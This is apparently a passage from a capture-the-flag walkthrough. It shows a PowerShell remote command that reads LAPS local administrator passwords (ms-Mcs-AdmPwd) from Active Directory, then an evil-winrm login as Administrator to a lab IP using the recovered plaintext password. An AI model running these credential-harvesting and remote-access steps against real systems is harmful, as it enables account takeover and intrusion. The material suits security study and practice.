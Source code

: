 We will set all the variables, know we can executed the code below in the history.
Let's try to get the admin password with LDAP:
{% highlight batch %}
PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
{% endhighlight %}

Now we just need to login as **Administrator**:
{% highlight bash %}
> evil-winrm -i 10.10.11.152 -S -u 'Administrator' -p 'h8#+vv+;q{E4u9+9u+-2c%+;' 
{% endhighlight %}